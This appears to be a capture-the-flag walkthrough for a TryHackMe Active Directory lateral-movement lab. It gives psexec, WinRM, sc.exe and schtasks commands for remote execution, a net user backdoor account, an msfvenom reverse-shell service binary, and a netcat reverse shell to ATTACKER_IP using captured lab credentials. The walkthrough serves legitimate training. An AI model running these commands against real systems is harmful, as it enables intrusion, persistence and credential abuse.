



Spawning Process Remotely
A) Psexec
Ports: 445/TCP (SMB)
Required Group Memberships: Administrators
Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded here.
(https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
The way psexec works is as follows:
▪ Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
▪ Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with C:\Windows\psexesvc.exe.
▪ Create some named pipes to handle stdin/stdout/stderr.

Command to Open a CMD shell at a remote machine:
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
B) Remote Process Creation Using WinRM
Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
Required Group Memberships: Remote Management Users
Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.
To connect to a remote Powershell session from the command line, we can use the following command:
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object:
##########################
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
##########################
Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet:
##########################
Enter-PSSession -Computername TARGET -Credential $credential
##########################
Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well:
##########################
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
##########################
C) Remotely Creating Services Using “sc”
Ports:
135/TCP, 49152-65535/TCP (DCE/RPC)
445/TCP (RPC over SMB Named Pipes)
139/TCP (RPC over SMB Named Pipes)
Required Group Memberships: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.
We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:
1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.

2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).

We can create and start a service named "THMservice" using the following commands:
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.
To stop and delete the service, we can then execute the following commands:
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
D) Creating Scheduled Tasks Remotely
Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00
schtasks /s TARGET /run /TN "THMtask1"
We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway.
Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.
Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:
schtasks /S TARGET /TN "THMtask1" /DELETE /F
Room Task
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
For this exercise, we will assume we have already captured some credentials with administrative access:
User: ZA.TRYHACKME.COM\t1_leonard.summers
Password: EZpass4ever
We'll show how to use those credentials to move laterally to THMIIS using sc.exe. Feel free to try the other methods, as they all should work against THMIIS.
While we have already shown how to use sc to create a user on a remote system (by using net user), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the exe-service format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.
Create a Service Binary in Our Attacker Machine:
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_TUNNEL_IP LPORT=8888 -o cybex.exe
Note: As we are using staged payload. We need to configure msfconsole's listener to send the stage components post initial connection
Upload the file to Samba Share (windows directory -- $admin):
smbclient -c 'put cybex.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/'
It will ask for Password
Next, Start a Listener for the above executible in msfconsole:
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ATTACKER_TUNNEL_IP
msf6 exploit(multi/handler) > set LPORT 8888
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit
Or
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST ATTACKER_TUNNEL_IP; set LPORT 8888;exploit"
Important
Since sc.exe doesn't allow us to specify credentials as part of the command, we need to use runas to spawn a new shell with t1_leonard.summer's access token.
Still, we only have SSH access to the machine, so if we tried something like “runas /netonly /user:ZA\t1_leonard.summers cmd.exe”, the new command prompt would spawn on the user's session, but we would have no access to it.
Note: If we are using RDP into our initial account. We can still use the above as the new CMD prompt will be spawned on the Deskop. (We can access)
Or
Solution when using SSH access (We have no access to new spawned CMD prompt)
we can use runas to spawn a second reverse shell with t1_leonard.summers access token:
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 7777"
We will keep a netcat listener on our Kali Machine: nc -lvnp 7777
Now, from the newly received shell we can run our sc commands.
Note: Remember that since you are using runas with the /netonly option, it will not bother to check if the provided credentials are valid, so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.
And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:
sc.exe \\thmiis.za.tryhackme.com create THMservice-5001 binPath= "%windir%\cybex.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start THMservice-5001
Once the second command executes, we will get a reverse shell from the THMIIS machine in our msfconsoie.